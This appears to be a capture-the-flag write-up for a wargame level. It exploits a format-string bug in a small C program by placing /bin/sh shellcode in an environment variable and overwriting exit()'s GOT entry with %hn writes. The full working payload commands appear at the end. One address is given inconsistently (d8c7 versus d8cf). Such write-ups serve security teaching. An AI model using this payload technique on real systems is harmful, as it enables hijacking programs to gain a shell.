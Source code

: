# Level05

## Code

```
#include <stdio.h>
#include <stdlib.h>

int     main(void)
{
  char s[100];
  unsigned int i;

  i = 0;
  fgets(s, 100, stdin);
  for ( i = 0; i < strlen(s); ++i )
  {
    if ( s[i] > 64 && s[i] <= 90 )
      s[i] ^= 0x20u;
  }
  printf(s);
  exit(0);
}
```
## Explanation

- We saw a non protected printf so we decided to export a shellcode in the env and to call it thanks to `printf`. \
```
$  export EXPLOIT=`python -c 'print "\x90" * 50 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'
```

- To get our variable address, we compiled a small program in /tmp :

```
#include <stdio.h> #include <stdlib.h>

int main() { printf("%p\n", getenv("EXPLOIT")); return 0; }
```



- We need to put the value of the address of our shellcode `0xffffd8c7` stored in the env at the address of the GOT entry of `exit()` to win.

- What happens if you give printf() a string with format specifiers but no arguments ? Well, the
    function will try to get the arguments where they should be in the memory anyway, so this is
    something we can exploit.

- After playing with this idea for a bit, we tried to give the program this input : \
    `aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x`
- We got this output : \
    `aaaa 64 f7fcfac0 f7ec3af9 ffffd6af ffffd6ae 0 ffffffff ffffd734 f7fdb000 61616161 20782520 25207825 78252078`

- Here it's quite easy to notice where our format string's buffer starts, technically we could use as many %X as we want to go back up in the stack's addresses to read whatever we want to.

- `printf()` has a format specifier that allows us to write at a specific address : %n
    %n writes the number of characters written so far at the variable address you give as argument.

- So technically, if we could write `0xffffd8c7` characters and then insert a %n whose argument is the address of exit()'s GOT entry `0x080497e0`, that would be perfect.

- The test we did earlier with AAAA helped us understand the beginning of the buffer corresponded to the 10th "%x" we gave as input, but we still have one problem: 0xffffd8cf, 4294957263 in decimal, is a far too big number to use as is, and even with the "%<paddingN>x%" syntax, we couldn't write the desired value in one shot.

- So we discovered the %hn specifier which allows us to write in in two parts, by blocks of 2 bytes instead of 4. So we had to write 0xd8c7 at the address of `exit()`'s got entry and 0xffff two bytes further.

- Knowing all that, here's our final payload :


## Exploit
```
$  export EXPLOIT=`python -c 'print "\x90" * 50 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'`
$ /tmp/getenv 
0xffffd8c7
$  (python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55487x%10$hn%10040x%11$hn"';cat) | ./level05
```